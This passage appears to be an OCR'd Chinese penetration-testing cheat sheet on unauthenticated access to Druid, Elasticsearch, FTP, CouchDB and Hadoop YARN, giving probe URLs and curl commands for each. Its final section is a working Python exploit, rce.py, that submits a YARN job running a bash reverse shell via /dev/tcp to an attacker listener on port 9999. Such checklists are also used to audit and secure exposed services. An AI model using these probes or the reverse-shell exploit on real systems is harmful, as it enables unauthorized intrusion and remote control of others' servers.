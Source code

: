 如果可以无需登录，即可登录到Druid监控界面，则说明该网站存在Druid未授权访问漏洞

## Elasticsearch

### 检测

默认开放9200和9300端口

    http://localhost:9200/_cat/indices
    http://localhost:9200/_river/_search #查看数据库敏感信息
    http://localhost:9200/_nodes #查看节点数据
    
## FTP

### 检测

直接访问ftp路径

    ftp://ip:port/
    
## CouchDB

### 检测

默认会在5984端口开放Restful的API接口，如果使用SSL的话就会监听在6984端口

未授权访问测试命令

    curl 192.168.126.130:5984
    curl 192.168.126.130:5984/_config
    
返回数据则证明存在未授权

## HadoopYARN

### 检测

环境启动后，没有配置身份认证，可以未授权访问到Hadoop YARN ResourceManager WebUI页面

    http://192.168.126.130:8088/
    http://192.168.126.130:8088/cluster

进一步getshell

rce.py

    #!/usr/bin/env python
    import requests
    target = 'http://192.168.126.130:8088/' # 设置目标主机的ip地址
    lhost = '192.168.126.128' # 设置你攻击主机的监听ip地址，并且监听端口为9999
    url = target + 'ws/v1/cluster/apps/new-application'
    resp = requests.post(url)
    app_id = resp.json()['application-id']
    url = target + 'ws/v1/cluster/apps'
    data = {
        'application-id': app_id,
        'application-name': 'get-shell',
        'am-container-spec': {
            'commands': {
                'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
            },
        },
        'application-type': 'YARN',
    }
    requests.post(url, json=data)
    